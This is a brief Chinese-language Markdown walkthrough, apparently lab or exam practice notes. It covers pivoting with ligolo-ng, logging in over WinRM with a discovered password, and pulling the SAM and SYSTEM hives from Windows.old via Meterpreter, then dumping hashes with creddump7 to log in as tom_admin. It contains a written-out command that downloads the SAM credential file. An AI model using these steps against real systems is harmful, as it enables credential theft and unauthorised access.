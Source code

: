 ## 用 ligolo-ng 建立 proxy tunnel
## nmap 
- <img width="1472" height="537" alt="image" src="https://github.com/user-attachments/assets/3f05836e-96b5-4dd0-9146-2d081e636632" />

## 5985 port
- 成功在 .141 發現 celia.almeda 的密碼，並成功登入
  - <img width="1918" height="312" alt="image" src="https://github.com/user-attachments/assets/e23c33b9-39b1-4544-926b-44164ca327be" />
- 在 windows.old/windows/system32 發現 system 和 sam 
  - <img width="1918" height="682" alt="image" src="https://github.com/user-attachments/assets/9122252a-8b2a-48ef-b9df-09253bc402c2" />
- 用 msfconsole 取得 meterpreter 後，用 download 下來
  ```
  download C:\\Windows.old\\Windows\\System32\\SAM /home/kali/Desktop/
  ```
- 用 creddump7 解 system 和 sam
  - <img width="1918" height="630" alt="image" src="https://github.com/user-attachments/assets/f31ed633-7c9d-45d2-9e69-c82be3f1c6f8" />
- 成功用 tom_admin 登入
  - <img width="1918" height="292" alt="image" src="https://github.com/user-attachments/assets/55531758-21d2-47f9-bd94-05b1f3337c58" />














































